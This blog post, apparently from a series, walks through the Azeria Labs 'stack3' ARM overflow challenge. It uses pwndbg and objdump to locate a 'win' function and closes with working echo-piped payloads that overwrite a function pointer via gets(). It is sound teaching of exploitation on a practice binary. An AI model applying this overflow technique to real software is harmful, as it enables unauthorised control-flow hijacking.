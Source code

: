 ```yaml
---
layout: post
title: "Smashing ARM Stack for Fun - Part IV"
---
```


This time the goal is to make the program print the message
`"code flow successfully changed"`.<!--more-->

## A manual `xref`

Let's see where this message is stored:

```nasm
pwndbg> search "code flow successfully changed"
stack3          0x10560 0x65646f63 /* 'code flow successfully changed'*/
stack3          0x20560 0x65646f63 /* 'code flow successfully changed'*/
```

And from where the executable makes a reference to it? In other
words, where in the code segment this address is stored?

```nasm
pwndbg> search -4 --executable 0x10560
stack3          0x10490 0x10560
stack3          0x10c6c 0x10560
stack3          0x20490 0x10560
```

To summarize the message (and array of chars) is stored at 0x10560
and the address 0x10560 is stored in 0x10490, 0x10c6c and 0x20490.

These addresses are the `char*` that the program must load into a
register to do a call to `printf` or `puts`.

Let's assume that one of those addresses is loaded in a register using an
instruction like this:

```nasm
<???>     ldr   r?, [pc, #offset?]
```

It is a reasonable assumption: the rest of the challenges so far used
this instruction.

We don't know neither which register will be using nor the offset so we
will have to guess.

Let's see what we can find with `objdump` and `grep`:

```nasm
pi@raspberrypi:~$ objdump -d stack3 | grep "ldr.*r[0-9], \[pc"
   10374:       e59f000c        ldr     r0, [pc, #12]   ; 10388 <_start+0x34>
   10378:       e59f300c        ldr     r3, [pc, #12]   ; 1038c <_start+0x38>
   10390:       e59f3014        ldr     r3, [pc, #20]   ; 103ac <call_weak_fn+0x1c>
   10394:       e59f2014        ldr     r2, [pc, #20]   ; 103b0 <call_weak_fn+0x20>
   103b4:       e59f301c        ldr     r3, [pc, #28]   ; 103d8 <deregister_tm_clones+0x24>
   103b8:       e59f001c        ldr     r0, [pc, #28]   ; 103dc <deregister_tm_clones+0x28>
   103c8:       e59f3010        ldr     r3, [pc, #16]   ; 103e0 <deregister_tm_clones+0x2c>
   103e4:       e59f1024        ldr     r1, [pc, #36]   ; 10410 <register_tm_clones+0x2c>
   103e8:       e59f0024        ldr     r0, [pc, #36]   ; 10414 <register_tm_clones+0x30>
   10400:       e59f3010        ldr     r3, [pc, #16]   ; 10418 <register_tm_clones+0x34>
   10420:       e59f4018        ldr     r4, [pc, #24]   ; 10440 <__do_global_dtors_aux+0x24>
   10448:       e59f0024        ldr     r0, [pc, #36]   ; 10474 <frame_dummy+0x30>
   10460:       e59f3010        ldr     r3, [pc, #16]   ; 10478 <frame_dummy+0x34>
   10484:       e59f0004        ldr     r0, [pc, #4]    ; 10490 <win+0x14>
   104c8:       e59f0018        ldr     r0, [pc, #24]   ; 104e8 <main+0x54>
   104f4:       e59f604c        ldr     r6, [pc, #76]   ; 10548 <__libc_csu_init+0x5c>
   104f8:       e59f504c        ldr     r5, [pc, #76]   ; 1054c <__libc_csu_init+0x60>
```

These two lines are interesting:

```nasm
   10484:       e59f0004        ldr     r0, [pc, #4]    ; 10490 <win+0x14>
   104c8:       e59f0018        ldr     r0, [pc, #24]   ; 104e8 <main+0x54>
```

And the winner is 0x10484!

```python
>>> 0x10484 + 0x4 + 0x8
0x10490
```

See how 0x10484 the address of the `ldr` instruction plus the offset
`0x4` plus 0x8 bytes yields an address (0x10490) that we found before, a
`char*`.

If we dereference it we will see the address of the message:

```nasm
pwndbg> x/1wx 0x10490
0x10490 <win+20>:       0x00010560

pwndbg> x/1bs 0x00010560
0x10560:        "code flow successfully changed"
```

So, our target is:

```nasm
pwndbg> pdisass 0x10484-8
 ► 0x1047c <win>        push   {fp, lr}
   0x10480 <win+4>      add    fp, sp, #4
   0x10484 <win+8>      ldr    r0, [pc, #4]
   0x10488 <win+12>     bl     #puts@plt <puts@plt>

   0x1048c <win+16>     pop    {fp, pc}
```

### A comment

This is not the only way to do it.

I could search for a `puts` call which whole be more likely to be the
one that we are looking for:

```shell
pi@raspberrypi:~$ objdump -d stack3 | grep "puts"
00010324 <puts@plt>:
   10488:       ebffffa5        bl      10324 <puts@plt>
```

I could look which functions are available:

```nasm
pwndbg> info functions
All defined functions:

Non-debugging symbols:
0x000102ec  _init
0x0001030c  printf@plt
0x00010318  gets@plt
0x00010324  puts@plt
<...>
0x0001047c  win
0x00010494  main
<...>
```

I could use IDA or [Radare2](https://rada.re/n/radare2.html) or similar
and do a `xref`...

Or I could just read what is the goal from the
[challenge](https://azeria-labs.com/part-3-stack-overflow-challenges/).

I preferred a longer path to explore more the commands of `pwndbg`
and stress a little more my brain.

Otherwise it wouldn't be fun :)

## Let's jump

This is the `main` function:

```nasm
pwndbg> pdisass &main 9
 ► 0x10494 <main>       push   {fp, lr}
   0x10498 <main+4>     add    fp, sp, #4
   0x1049c <main+8>     sub    sp, sp, #0x50
   0x104a0 <main+12>    str    r0, [fp, #-0x50]
   0x104a4 <main+16>    str    r1, [fp, #-0x54]
   0x104a8 <main+20>    mov    r3, #0
   0x104ac <main+24>    str    r3, [fp, #-8]
   0x104b0 <main+28>    sub    r3, fp, #0x48
   0x104b4 <main+32>    mov    r0, r3
   0x104b8 <main+36>    bl     #gets@plt <gets@plt>

   0x104bc <main+40>    ldr    r3, [fp, #-8]
   0x104c0 <main+44>    cmp    r3, #0
   0x104c4 <main+48>    beq    #main+72 <main+72>

   0x104c8 <main+52>    ldr    r0, [pc, #0x18]
   0x104cc <main+56>    ldr    r1, [fp, #-8]
   0x104d0 <main+60>    bl     #printf@plt <printf@plt>

   0x104d4 <main+64>    ldr    r3, [fp, #-8]
   0x104d8 <main+68>    blx    r3
```

So instead of a cookie like in the
[stack0](/book-of-gehn/articles/2021/01/14/Smashing-ARM-Stack-for-Fun-Part-I.html)
or [stack1](/book-of-gehn/articles/2021/01/14/Smashing-ARM-Stack-for-Fun-Part-II.html)
we have the address of a function.

{% marginnote
'`blx r3` is an unconditional jump to an absolute address
([docs](https://developer.arm.com/documentation/dui0068/b/arm-instruction-reference/arm-branch-instructions/blx?lang=en)).
<br />
That&apos;s why it works.
' %}

The address is initialized to zero but due to a stack overflow we can
write an arbitrary address, in particular, the address of `win`:
0x0001047c

```shell
pi@raspberrypi:~$ echo -ne 'AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA\x7c\x04\x01\x00' | ./stack3
calling function pointer, jumping to 0x0001047c
code flow successfully changed
```

We could also jump to the middle of `win`, to 0x00010484, and we will
have the same result. The only problem is that the program will execute
the *epilogue* of `win` **without** having executed its *prologue*.

{% marginnote
'Does this ring some bells? This is the base of *return oriented
programming* or ROP.
' %}

The result? `pop {fp, pc}` will restore `pc` to the next element in the
stack which most likely will not be a valid address. Happy segfault!

```shell
pi@raspberrypi:~$ echo -ne 'AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA\x84\x04\x01\x00' | ./stack3
calling function pointer, jumping to 0x00010484
code flow successfully changed
Segmentation fault
```
